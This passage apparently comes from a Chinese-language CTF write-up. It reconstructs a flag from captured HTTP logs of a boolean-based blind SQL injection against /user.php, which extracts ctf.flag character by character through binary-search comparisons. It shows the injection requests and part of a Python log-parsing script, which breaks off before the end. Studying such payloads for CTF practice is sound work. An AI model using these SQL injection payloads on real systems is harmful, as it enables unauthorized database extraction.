 ```
GET /user.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM ctf.flag ORDER BY flag LIMIT 0,1),1,1))>102 HTTP/1.1
GET /user.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM ctf.flag ORDER BY flag LIMIT 0,1),1,1))>102 HTTP/1.1
GET /user.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM ctf.flag ORDER BY flag LIMIT 0,1),1,1))>103 HTTP/1.1
GET /user.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM ctf.flag ORDER BY flag LIMIT 0,1),1,1))>103 HTTP/1.1
```
请求都有了那么久写脚本吧，limit 0,1)后面的数字代表位数，后面的>xx是代表二分法确定字符是什么，这里有个问题就是二分法最后的测试payload有可能是flag的本身或者小一位，没办法，这种方式无法判断返回的数据，那么就手工吧，最后的脚本
```
import urllib

log = open('flag2.log','r')
#log2 = open('flag2.log','w')
i=1
flag = ''
f = 0

for eachLine in log:
        pos = eachLine.find('LIMIT 0,1)')
        result = urllib.unquote(eachLine[pos+11:])
        poss = result.find(',')
        index = result[:poss]
        #if(eachLine.find('ctf.flag')!=-1):
        	#print urllib.unquote(eachLine)
        if(index != i):
        	i = index
        	#print 'index:'+i
        	#print f
        	if(i=='1'):
        		flag+=''
        	elif(i=='2'):
        		flag+=chr(int(f)+1)
        	elif(i=='4'):
        		flag+=chr(int(f)+1)
        	elif(i=='5'):
        		flag+=chr(int(f)+1)
        	elif(i=='7'):
        		flag+=chr(int(f)+1)
        	elif(i=='8'):
        		flag+=chr(int(f)+1)
        	elif(i=='12'):
        		flag+=chr(int(f)+1)
        	elif(i=='23'):
        		flag+=chr(int(f)+1)
        	elif(i=='16'):
        		flag+=chr(int(f)+1)	
        	elif(i=='19'):
        		flag+=chr(int(f)+1)	
        	elif(i=='20'):
        		flag+=chr(int(f)+1)
        	elif(i=='26'):
        		flag+=chr(int(f)+1)				
        	else:
        		flag+=chr(int(f))
        

        posss = result.find('>')
        possss = result.find(' HTTP')
        index2 = result[posss+1:possss]

```